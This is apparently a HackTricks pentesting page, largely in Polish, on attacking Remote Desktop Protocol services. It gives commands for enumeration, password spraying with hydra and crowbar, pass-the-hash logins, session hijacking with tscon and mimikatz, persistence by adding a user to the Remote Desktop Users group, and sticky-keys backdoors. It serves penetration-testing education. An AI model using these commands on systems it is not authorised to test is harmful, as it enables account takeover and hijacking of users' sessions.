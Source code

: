 # 3389 - Pentesting RDP

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Get a hacker's perspective on your web apps, network, and cloud

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Podstawowe informacje

Opracowany przez Microsoft, **Remote Desktop Protocol** (**RDP**) jest zaprojektowany w celu umożliwienia połączenia z interfejsem graficznym między komputerami w sieci. Aby nawiązać takie połączenie, użytkownik korzysta z oprogramowania klienckiego **RDP**, a jednocześnie zdalny komputer musi działać na oprogramowaniu serwera **RDP**. Ta konfiguracja pozwala na płynne sterowanie i dostęp do środowiska pulpitu zdalnego komputera, zasadniczo przenosząc jego interfejs na lokalne urządzenie użytkownika.

**Domyślny port:** 3389
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```
## Enumeracja

### Automatyczna

{% code overflow="wrap" %}
```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
{% endcode %}

Sprawdza dostępne szyfrowanie i podatność na DoS (bez powodowania DoS dla usługi) oraz uzyskuje informacje NTLM Windows (wersje).

### [Brute force](../generic-methodologies-and-resources/brute-force.md#rdp)

**Bądź ostrożny, możesz zablokować konta**

### **Password Spraying**

**Bądź ostrożny, możesz zablokować konta**
```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### Połącz z znanymi poświadczeniami/hashami
```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```
### Sprawdź znane dane uwierzytelniające w usługach RDP

rdp\_check.py z impacket pozwala sprawdzić, czy niektóre dane uwierzytelniające są ważne dla usługi RDP:
```bash
rdp_check <domain>/<name>:<password>@<IP>
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Uzyskaj perspektywę hakera na swoje aplikacje internetowe, sieć i chmurę

**Znajdź i zgłoś krytyczne, wykorzystywalne luki z rzeczywistym wpływem na biznes.** Użyj naszych 20+ niestandardowych narzędzi, aby zmapować powierzchnię ataku, znaleźć problemy z bezpieczeństwem, które pozwalają na eskalację uprawnień, oraz użyj zautomatyzowanych exploitów, aby zebrać niezbędne dowody, przekształcając swoją ciężką pracę w przekonujące raporty.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **Ataki**

### Kradzież sesji

Z **uprawnieniami SYSTEM** możesz uzyskać dostęp do każdej **otwartej sesji RDP przez dowolnego użytkownika** bez potrzeby znajomości hasła właściciela.

**Uzyskaj otwarte sesje:**
```
query user
```
**Dostęp do wybranej sesji**
```bash
tscon <ID> /dest:<SESSIONNAME>
```
Teraz będziesz wewnątrz wybranej sesji RDP i będziesz musiał podszyć się pod użytkownika, używając tylko narzędzi i funkcji systemu Windows.

**Ważne**: Kiedy uzyskasz dostęp do aktywnych sesji RDP, wylogujesz użytkownika, który z niej korzystał.

Możesz uzyskać hasła z procesu, zrzucając je, ale ta metoda jest znacznie szybsza i pozwala na interakcję z wirtualnymi pulpitami użytkownika (hasła w notatniku bez zapisywania na dysku, inne sesje RDP otwarte na innych maszynach...)

#### **Mimikatz**

Możesz również użyć mimikatz, aby to zrobić:
```bash
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```
### Sticky-keys & Utilman

Łącząc tę technikę z **stickykeys** lub **utilman**, będziesz mógł uzyskać dostęp do administracyjnego CMD i każdej sesji RDP w dowolnym momencie.

Możesz wyszukiwać RDP, które zostały zainfekowane jedną z tych technik, korzystając z: [https://github.com/linuz/Sticky-Keys-Slayer](https://github.com/linuz/Sticky-Keys-Slayer)

### RDP Process Injection

Jeśli ktoś z innej domeny lub z **lepszymi uprawnieniami zaloguje się przez RDP** do komputera, gdzie **jesteś administratorem**, możesz **wstrzyknąć** swój beacon do jego **procesu sesji RDP** i działać jako on:

{% content-ref url="../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md" %}
[rdp-sessions-abuse.md](../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md)
{% endcontent-ref %}

### Adding User to RDP group
```bash
net localgroup "Remote Desktop Users" UserLoginName /add
```
## Automatic Tools

* [**AutoRDPwn**](https://github.com/JoelGMSec/AutoRDPwn)

**AutoRDPwn** to framework post-exploatacyjny stworzony w Powershell, zaprojektowany głównie w celu automatyzacji ataku **Shadow** na komputerach Microsoft Windows. Ta luka (wymieniana jako funkcja przez Microsoft) pozwala zdalnemu atakującemu na **oglądanie pulpitu ofiary bez jej zgody**, a nawet na kontrolowanie go na żądanie, korzystając z narzędzi natywnych dla samego systemu operacyjnego.

* [**EvilRDP**](https://github.com/skelsec/evilrdp)
* Kontroluj mysz i klawiaturę w zautomatyzowany sposób z linii poleceń
* Kontroluj schowek w zautomatyzowany sposób z linii poleceń
* Uruchom proxy SOCKS z klienta, które kieruje komunikację sieciową do celu za pośrednictwem RDP
* Wykonuj dowolne polecenia SHELL i PowerShell na celu bez przesyłania plików
* Przesyłaj i pobieraj pliki do/z celu, nawet gdy transfer plików jest wyłączony na celu

## HackTricks Automatic Commands
```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for RDP
Note: |
Developed by Microsoft, the Remote Desktop Protocol (RDP) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, RDP client software is utilized by the user, and concurrently, the remote computer is required to operate RDP server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device.

https://book.hacktricks.xyz/pentesting/pentesting-rdp

Entry_2:
Name: Nmap
Description: Nmap with RDP Scripts
Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Uzyskaj perspektywę hakera na swoje aplikacje internetowe, sieć i chmurę

**Znajdź i zgłoś krytyczne, wykorzystywalne luki w zabezpieczeniach, które mają rzeczywisty wpływ na biznes.** Użyj naszych 20+ niestandardowych narzędzi, aby zmapować powierzchnię ataku, znaleźć problemy z bezpieczeństwem, które pozwalają na eskalację uprawnień, oraz użyj zautomatyzowanych exploitów, aby zebrać niezbędne dowody, przekształcając swoją ciężką pracę w przekonujące raporty.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
